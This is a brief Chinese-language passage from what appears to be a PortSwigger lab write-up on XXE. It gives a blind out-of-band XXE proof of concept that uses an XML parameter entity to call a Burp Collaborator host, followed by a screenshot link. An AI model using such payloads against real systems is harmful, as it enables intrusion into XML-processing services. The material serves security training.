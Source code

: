 和6类似

只不过换用%来代替&

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://t93h08q29o1vsw03hbagwf6q6hc70w.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



burp collaborator客户端:

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/6A37D025A7F947ADADF228D70BF6CCDCclipboard.png)

